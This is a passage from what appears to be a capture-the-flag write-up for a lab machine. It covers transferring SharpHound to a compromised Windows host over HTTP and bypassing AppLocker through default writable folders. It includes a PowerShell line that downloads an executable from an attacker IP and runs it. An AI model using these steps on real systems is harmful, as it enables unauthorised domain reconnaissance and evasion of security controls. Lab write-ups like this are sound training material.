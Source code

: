 ## Path to Victory

Now that we got our foot on the door🚪, we can try to collect and analyze all the available domain information. The `upload` function of `evil-winrm` does not work for some reason, so we can transfer `SharpHound.exe` via an HTTP server and run it...or not (Figure 22) ?

{% hint style="danger" %}
For BloodHound Community Edition **download the latest compatible SharpHound ingestor**!
{% endhint %}

{% tabs %}
{% tab title="1. HTTP Server" %}
```bash
# starting an HTTP server from the directory that SharpHound.exe resides
python3 -m http.server 80
```
{% endtab %}

{% tab title="2. Download" %}
```powershell
# downloading the executable from the target host
IWR -Uri http://10.10.14.4/SharpHound.exe -OutFile sh.exe
# running the executable
.\sh.exe -c all
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/sizzle_blocked_gp.png" alt=""><figcaption><p>Figure 22: SharpHound is blocked by the host's group policy.</p></figcaption></figure>

It seems that we can't execute files due to AppLocker's group policies. Luckily, there are many default writable paths, such as `C:\Windows\Registration\CRMLog`, that we can write to and execute a file from (paths listed [here](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md#placing-files-in-writeable-paths)) (Figure 23).
